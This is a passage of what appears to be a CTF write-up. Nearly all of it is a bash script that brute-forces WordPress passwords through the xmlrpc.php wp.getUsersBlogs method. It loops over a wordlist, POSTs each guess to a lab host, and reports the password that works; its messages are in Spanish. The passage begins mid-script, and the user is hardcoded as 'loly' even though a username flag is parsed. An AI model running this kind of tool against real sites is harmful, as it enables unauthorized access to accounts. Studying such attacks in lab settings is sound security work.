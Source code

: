 ```bash
}

declare -i parameter_counter=0

tput civis

while getopts "u:w:h" arg; do
  case $arg in
    u) username=$OPTARG && let parameter_counter+=1;; 
    w) wordlist=$OPTARG && let parameter_counter+=1;;
    h) helpPanel
  esac
done

function makeXML(){
  username=$1
  wordlist=$2

  cat $wordlist | while read password; do
    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>loly</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
"""

  echo $xmlFile > data.xml

  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@data.xml)

  if [ ! "$(echo $response | grep -E 'Incorrect username or password.|parse error. not well formed')" ]; then
    echo -e "\n${yellowColour}[+] ${grayColour}La contraseña es ${blueColour}$password${endColour}"
    rm data.xml 2>/dev/null
    tput cnorm && exit 0
  fi
  done
}

if [ $parameter_counter -eq 2 ]; then
  if [ -f $wordlist ]; then
    makeXML $username $wordlist
  else
    echo -e "\n\n${redColour}[!] El archivo no existe${endColour}\n"
  fi
else
  helpPanel
fi

rm data.xml 2>/dev/null
tput cnorm
```
{% endcode %}
